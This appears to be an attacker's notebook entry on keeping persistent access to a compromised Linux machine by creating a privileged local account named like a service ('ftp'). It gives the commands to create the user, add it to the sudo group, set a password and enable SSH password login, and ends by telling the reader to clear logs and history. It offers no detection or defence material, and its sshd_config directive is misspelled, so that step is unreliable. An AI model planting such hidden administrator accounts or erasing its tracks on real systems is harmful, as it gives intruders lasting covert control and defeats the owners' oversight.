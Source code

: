 
## General

Creating a privilege local account on a system and disguising it as a service can be a way for an attacker to maintain access to a compromised machine. A local account is an account that is specific to a single machine, as opposed to an account that is valid across multiple machines on a network. By creating a local account, an attacker can log in to the machine using that account and potentially gain access to resources or perform actions that would not be possible with a standard user account.

To make the local account appear as a service, the attacker can modify the system's configuration so that the account is automatically started when the machine is booted. This can make it difficult for a system administrator or other user to notice that the account exists, as it will appear to be a legitimate service running on the machine.

If an attacker is able to create a local account and disguise it as a service, they can use it to maintain access to the machine even after a reboot or after they have logged out. This can allow the attacker to remain undetected on the system and to continue to perform actions or gather sensitive data over an extended period of time.


## Commands

Take note that you need an adminitrator account to create a root user

Create user (Mimic Service)
```
useradd -M -s /bin/bash ftp
```
- -M                 ---> Dont create a direcotry
- -m /place      ---> Create a directory in the place of your choice
- -s /bin/bash  ---> Type of Shell
- ftp                  ---> Name of the user/service

Give the user ROOT right & Set password
```
usermod -aG sudo ftp     ---> Add user to SUDO groups
groups ftp               ---> Check Groups
passwd ftp               ---> Set password
```

SSH Authentification setup (edit etc/ssh/sshd_config)
```
# Enable login via passowrd or use the Account Manipulation technique

# Uncomment
	PasswordAuthentification yes
```
- SSH Login via password or SSH keys



===Dont Forget to Clear Tracks (Check [[🧹 CLEAR Logs & History]])===
